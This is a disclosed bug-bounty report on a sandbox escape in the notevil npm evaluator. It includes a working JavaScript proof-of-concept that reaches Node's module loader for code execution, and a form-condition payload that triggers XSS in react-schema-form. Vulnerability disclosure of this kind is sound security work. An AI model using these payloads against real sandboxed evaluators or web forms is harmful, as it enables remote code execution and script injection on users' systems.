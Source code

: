 # [notevil] - Sandbox Escape Lead to RCE on Node.js and XSS in the Browser

## Report Details
- **Report ID**: 809012
- **URL**: https://hackerone.com/reports/809012
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-03-03T00:07:44.820Z
- **Disclosed**: 2020-08-27T16:14:50.822Z

## Reporter
- **Username**: phra
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a sandbox escape / code injection vulnerability in notevil.

It allows an attacker to escape the intended sandbox and execute javascript code in the global context, meaning that he/she can achieve arbitrary command execution (RCE) when running in nodejs and cross site scripting (XSS) when running in the browser.

# Module

**module name:** notevail
**version:** 1.3.2
**npm page:** `https://www.npmjs.com/package/notevil`

## Module Description

Evalulate javascript like the built-in javascript eval() method but safely.

This module uses esprima to parse the javascript AST then walks each node and evaluates the result.

Like built-in eval, the result of the last expression will be returned. Unlike built-in, there is no access to global objects, only the context that is passed in as the second object.

Built in types such as Object and String are still available, but they are wrapped so that any changes to prototypes are contained in the eval instance.

## Module Stats

[1] weekly downloads: 3,290

# Vulnerability

## Vulnerability Description

A bypass to a previous sandbox escape fix (https://github.com/mmckegg/notevil/commit/5974329712f0a527c5e16d3b9067a076e28e45f1) is existing and proven by the attached poc.

## Steps To Reproduce:

### Node.js

```
var safeEval = require("notevil")

var code = "" +
    "function fn() {};" +
    "var constructorProperty = Object.getOwnPropertyDescriptors(fn.__proto__).constructor;" +
    "var properties = Object.values(constructorProperty);" +
    "properties.pop();" +
    "properties.pop();" +
    "properties.pop();" +
    "var Func = properties.map(function (x) {return x.bind(x, 'return this.process.mainModule.constructor._load(`util`).log(`pwned`)')}).pop();" +
    "(Func())()"
console.log(safeEval(code))
```

check the provided poc:
- http://runkit.com/phra/notevil---sandbox-escape

### Browser

If we check some dependent package, such as react-schema-form, we can see that the issue lead to XSS when the affected package is used in the browser.

1. visit https://networknt.github.io/react-schema-form/
2. set form
```
[
  {
    "key": "comments",
    "condition": "function fn() {};var constructorProperty = Object.getOwnPropertyDescriptors(fn.__proto__).constructor;var properties = Object.values(constructorProperty);properties.pop();properties.pop();properties.pop();var Func = properties.map(function (x) {return x.bind(x, 'return this.alert(`pwned `)')}).pop();(Func())()",
    "type": "radios",
    "titleMap": [
      {
        "value": "S",
        "name": "Shipping"
      },
      {
        "value": "P",
        "name": "Pickup"
      }
    ]
  }
]
```
3. set schema
```
{
  "type": "object",
  "required": [
    "comments"
  ]
}
```

## Patch

*TBD*

## Supporting Material/References:

not applicable.

# Wrap up

- I contacted the maintainer to let them know: N 
- I opened an issue in the related repository: N

## Impact

An attacker can execute arbitrary commands on the system when the package is used with nodejs and execute arbitrary javascript when is used in the browser.

## Attachments
- react-schema-form.png
- notevil.png
